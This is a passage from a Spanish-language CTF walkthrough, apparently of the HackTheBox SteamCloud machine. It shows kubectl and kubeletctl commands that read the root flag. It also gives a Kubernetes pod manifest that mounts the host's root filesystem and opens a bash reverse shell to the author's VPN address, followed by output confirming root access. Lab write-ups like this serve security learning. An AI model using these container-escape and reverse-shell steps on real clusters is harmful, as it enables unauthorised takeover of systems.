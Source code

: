 ```js
kubectl apply -f stranger.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
pod/stranger created
------
kubectl get pod --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
NAME       READY   STATUS    RESTARTS   AGE
nginx      1/1     Running   0          168m
stranger   1/1     Running   0          64s
```
Al crear este pod, no permitiría visualizar la flag del usuaro root, ejecutandolo de la misma manera como se obtuno la flag del usuario.

```js
kubeletctl exec "cat /mnt/root/root.txt" -s 10.10.11.133 -p stranger -c stranger
5720aeb4a16d********************
```
## [](#header-2)Ganar acceso total al sistema

Como ya se valido que se puede agregar archivo .yaml al sistema, se procede a crear otro pod pero en este caso enfocandolo en una reverse shell hacía mi máquina.

```js
apiVersion: v1
kind: Pod
metadata:
  name: sistema
  namespace: default
spec:
  containers:
  - name: sistema
    image: nginx:1.14.2
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.14.2/443 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
- **Importante:**
	- En la parte de **args:** debe ir el puerto por el que se va a escuchar y la dirección IP dada por al VPN de HTB.

Se procede abrir una terminal y ponerse en escucha por el puerto dado anteriormente y sube el archivo al sistema.

```js
kubectl apply -f reverse.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
pod/reverse created
```

Se valida la terminal que estaba es escucha y justamente se cuenta con acceso de root.

```js
root@steamcloud:/# whoami
whoami
root
```

**By WhosStranger**